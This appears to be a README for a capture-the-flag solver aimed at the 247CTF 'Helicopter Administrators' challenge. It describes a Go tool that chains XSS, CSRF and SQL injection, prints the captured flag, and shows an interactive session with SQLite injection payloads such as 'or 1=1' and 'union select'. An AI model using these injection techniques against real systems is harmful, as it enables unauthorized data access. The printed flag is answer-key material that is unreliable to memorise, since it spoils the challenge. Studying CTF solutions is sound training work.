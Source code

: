 ### Helicopter Administrators Solved ( Rated Hard ) - 300 points

```
This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't? 
```
This challenge is compensation of bypassing blacklist, Advanced XXS, CSRF, SQLite Injeciton.


1- Change 	`urlBase` varible to your generated url:

```go
string = "https://feef92c0eb0c14bf.247ctf.com
```

Then you are ready to go:
To get only the flag, run the following:


```go
*$ go run cmd/xss/main.go              
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
{"message":[[1,2,3,4,5,"247CTF{c9355024736f1fdfa121e243c7024540}"]],"result":"success"}

*$ 
```

You also have interactive shell with the backend of the `sqlite`

```sh
*$ go run cmd/xss/main.go -h
Usage of /tmp/go-build950372382/b001/exe/main:
  -interactive
    	[+] Interactive to manual SQL injection!
exit status 2
*$ 
```

Lets try to interactive with the backend databse:

```bash
*$ go run cmd/xss/main.go --interactive
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
#-> 1
{"message":[[1,"Michael Owens",14,22,3,"Sydney, Australia"]],"result":"success"}

#-> 1337 or 1=1;--
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

#-> 1337 order by 1;--
{"message":[],"result":"success"}

#-> 1337 order by 7;--
{"message":"SQLite error: 1st ORDER BY term out of range - should be between 1 and 6","result":"error"}

#-> 1337 union select 1,2,3,4,5,6;--
{"message":[[1,2,3,4,5,6]],"result":"success"}

```

